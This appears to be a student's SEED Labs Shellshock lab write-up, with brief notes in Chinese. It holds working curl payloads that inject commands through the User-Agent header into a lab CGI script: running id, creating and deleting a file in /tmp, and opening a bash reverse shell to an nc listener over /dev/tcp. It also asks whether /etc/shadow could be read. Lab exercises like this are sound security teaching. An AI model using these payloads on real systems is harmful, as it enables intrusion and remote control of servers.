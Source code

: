 

# get the server to tell you its process’ user ID

```shell
$ curl -A "() { echo hello wdnmd;}; echo Content_type: text/plain; echo; /bin/id" www.seedlab-shellshock.com/cgi-bin/vul.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# get the server to create a file inside the /tmp folder

```shell
$ curl -A "() { echo hello wdnmd;}; echo Content_type: text/plain; echo; /bin/touch /tmp/1" www.seedlab-shellshock.com/cgi-bin/vul.cgi
```


# get the server to delete the file that you just created inside the /tmp folder

```shell
$ curl -A "() { echo hello wdnmd;}; echo Content_type: text/plain; echo; /bin/rm /tmp/1" www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

# Question 1: Will you be able to steal the content of the shadow file /etc/shadow from the server?

默认情况下，web服务器使用 Ubuntu 中的 www-data 用户 ID 运行，uid=33(www-data) gid=33(www-data) groups=33(www-data)，因此无法得到影子文件

# Getting a Reverse Shell via Shellshock Attack

## nc

- -l Listen on a specified port and print any data received
- -v Produce more verbose output.
- -n 直接使用IP地址，而不通过域名服务器

攻击端运行`nc -l 9090 -nv`等待reverse shell

攻击端ip：10.9.0.1，docker中web服务器ip：10.9.0.1


被攻击端：

```shell
$  curl -A "() { echo hello wdnmd;}; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1" www.seedlab-shellshock.com/cgi-bin/vul.cgi
```
